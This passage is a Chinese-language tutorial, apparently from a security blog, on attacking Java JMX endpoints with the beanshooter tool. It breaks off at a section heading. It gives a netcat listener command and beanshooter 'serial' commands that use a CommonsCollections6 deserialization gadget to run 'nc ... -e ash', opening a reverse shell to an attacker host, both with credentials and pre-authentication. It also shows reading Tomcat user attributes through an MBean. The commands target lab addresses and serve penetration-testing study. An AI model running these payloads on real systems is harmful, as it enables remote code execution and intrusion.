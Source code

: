 ![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfSdFiaYiahONiclGp0Kwssib34posPmuDXOiaTRtPcYWRicnMl8jiaocIJ1EUg/640?wx_fmt=png&from=appmsg "")  
##### 反序列化  
  
serial操作可用于在JMX端点上执行反序列化攻击，默认情况下该操作会尝试验证后反序列化攻击，要做到这一点您需要将JMX服务定位为允许未经身份验证的访问或者您需要有效的凭据  
  
Step 1：开启监听  
```
nc -lnvp 1234
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfk4NHtVRgF7zteSjdrafUdbU1Uj7pP4kjY0MmKTgz1VX7DdOuibZpnhQ/640?wx_fmt=png&from=appmsg "")  
  
Step 2：发起反序列化请求，如果出现下面的错误提示则说明是未配置yso.jar的路径  
```
java -jar beanshooter.jar serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 1234 -e ash" --username admin --password admin
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfaHkrFHZToW7f30Chh0tUQSrRddgjl7icqUiacatNJZiahZNRhPbGW3ic6w/640?wx_fmt=png&from=appmsg "")  
  
随后正常执行后可以成功反弹shell回来：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJf72KwNhUSY8trGnmqKZWpu566PjLkoZwbkwqKeruCiaktEkEB8k8icbXg/640?wx_fmt=png&from=appmsg "")  
  
JMX服务也容易受到预先验证的反序列化攻击，要滥用这一点，您可以使用-preauth开关  
```
java -jar beanshooter.jar serial 172.17.0.2 1090 CommonsCollections6 "nc 172.17.0.1 4444 -e ash" --preauth
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfoWjhGJm9yibEa0aN4haq89O8EgxuCEAgjuphDrUPAtRTbkvahgMDLUg/640?wx_fmt=png&from=appmsg "")  
  
备注：针对JMXMP端点预先验证的反序列化通常是可能的，不幸的是在枚举操作中没有办法正确地枚举它，如果您遇到一个JMXMP端点，您应该试一试  
#### MBeans  
  
MBean操作与针对JMX端点所暴露的通用功能的基本操作相比则是针对特定的MBean，Beanshooter对于每个支持的MBean都提供了另一个子解析器，其中包含相应MBean的可用操作和选项，以下列表展示了mlet MBean及其关联子解析器的示例：  
```
java -jar beanshooter.jar mlet -h
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJfqlsRooCehnM0vm8ByQLJKVnETqouXIjxWodzd3Vqnk7mBEVMzPXSEg/640?wx_fmt=png&from=appmsg "")  
##### Generic  
  
Generic MBean操作反映了基本操作的功能，但不需要指定ObjectName  
###### 攻击操作  
  
attr操作与基本操作中的attr操作相同，然而不再需要指定ObjectName，因为它已包含在所指定的MBean中  
```
 java -jar beanshooter.jar tomcat attr 172.17.0.2 1090 users
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/PJcQz9vmUicl19mYyKWyP8SoVIrb4oNJf4bAaMib80nLN6cVKX0MPrK4IwI2oqsIVsvEHa85c6wHKUT2n925lqmw/640?wx_fmt=png&from=appmsg "")  
###### 部署操作  
  